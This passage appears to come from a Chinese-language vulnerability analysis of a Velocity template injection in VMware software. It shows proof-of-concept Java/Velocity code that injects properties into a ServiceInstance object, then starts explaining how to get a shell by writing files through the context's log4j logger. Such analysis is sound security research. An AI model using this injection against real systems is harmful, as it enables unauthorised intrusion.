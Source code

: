 ```plain
VelocityHelper.executeVelocityExpression("#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##\n" +
                "#set($objectId = \"vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid\")##\n" +
                "#set($obj = $LOCAL-cdf20Result.newObject(\"vim.ServiceInstance\", $objectId))##\n" +
                "$obj.addProperty(\"OSTYPE\", \"VMware can't steal this PoC\")##\n" +
                "$obj.addProperty(\"BUILD\", $content-about-build)##\n" +
                "$obj.addProperty(\"VERSION\", $content-about-version)##", this.velocityInvocationContext.velocityEngine, this.velocityInvocationContext.velocityContext, logTag);
this.velocityInvocationContext.velocityJsonLd.object;
```

转换成json返回  
[![](assets/1704161823-0797fc246e6015ac867027e72f8a6e2c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122423-955c9006-491c-1.png)

### velocity GLOBAL-logger利用构造

既然已经清楚了poc是怎么构造的，那么如何getshell，自然是从context里已有的变量里下手，其中注意到有个`GLOBAL-logger`,是log4j的实例，之前分析的漏洞点就是通过log4j写文件的。  